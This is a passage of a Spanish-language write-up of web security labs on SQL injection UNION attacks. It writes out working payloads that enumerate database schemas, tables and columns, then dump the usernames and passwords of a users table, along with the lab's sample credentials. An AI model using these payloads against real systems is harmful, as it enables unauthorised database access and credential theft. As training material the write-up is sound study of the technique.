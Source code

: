 Con esto sabemos que no es nada de `Oracle` ni nada parecido...

```mysql
' union select NULL,schema_name from information_schema.schemata-- -
```

Veremos que nos aparece una llamada `public` por lo que haremos lo siguiente...

```mysql
' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```

Y nos aparecera lo siguiente...

```
users
```

Por lo que haremos lo siguiente...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```

Aparecera lo siguiente...

```
|email|
|password|
|username|
```

```mysql
' union select NULL,username||':'||password from users-- -
```

```
|wiener:bwrtkxibjnvzvno51nfu|
|administrator:u7ve13tyofvcu2nvnq06|
carlos:yzoxtf8gpjq7uwyrnxsd
```

Con esto ya nos podremos registrar como `admin` en la pagina web...

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

En esta practica tendremos que hacer basicamente lo mismo que en las anteriores, conseguir las credenciales completas de todos los usuarios y entre ellas registrarnos como `admin`...

Sabiendo que sigue la misma mecanica y que las bases de datos y tablas son iguales, para comprobarlo haremos lo siguiente...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```

Con esto veremos su contenido para ahora mirar lo que contiene cada columna...

```
|email|
|password|
|username|
```
